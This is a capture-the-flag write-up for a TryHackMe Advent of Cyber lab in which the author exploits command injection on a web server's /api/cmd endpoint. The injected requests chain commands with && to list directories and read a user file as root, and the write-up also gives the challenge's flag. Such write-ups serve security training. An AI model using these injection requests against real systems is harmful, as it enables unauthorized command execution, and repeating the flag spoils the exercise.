 ## Introduction

> Another day, another hack from the Christmas Monster. Can you get back control of the system?

> Access the web server on http://[your-ip]:3000/

> McSkidy actually found something interesting on the /api/cmd endpoint.

> Check out the [supporting material](https://github.com/g33k4y/TryHackMe-AdventofCyber2019-Writeup/blob/master/task24/Christmas%20Command%20Injection.pdf) here.

## Question 1

> What are the contents of the user.txt file?

td:lr Answer: **5W7WkjxBWwhe3RNsWJ3Q**

===============================================================================

On the webpage, it is just an empty page with the text "christmas monster was here"

we were given in the intro that there is something interesting on /api/cmd.

Navigating to http://[ip]:3000/api/cmd, we will see error "Cannot GET /api/cmd/"
However, as the supporting doc implies, there might be command injection available here

we can try by inserting whoami:
`http://[ip]:3000/api/cmd/whoami`

straightaway we can see a json return of 'root\n', which means our command injection works successfully
So now we need to find the right information by enumerating and finding the right file:

`http://[ip]:3000/api/cmd/ls -la`
![](./pic1.png)
`http://[ip]:3000/api/cmd/cd home&&ls -la`
![](./pic2.png)
`http://[ip]:3000/api/cmd/cd home&&cd bestadmin&&ls -la`
![](./pic3.png)

in the directory home/bestadmin/ we will find the user.txt file. Hence the below will give us the answer.
`http://[ip]:3000/api/cmd/cd%20home&&cd%20bestadmin&&cat%20user.txt`

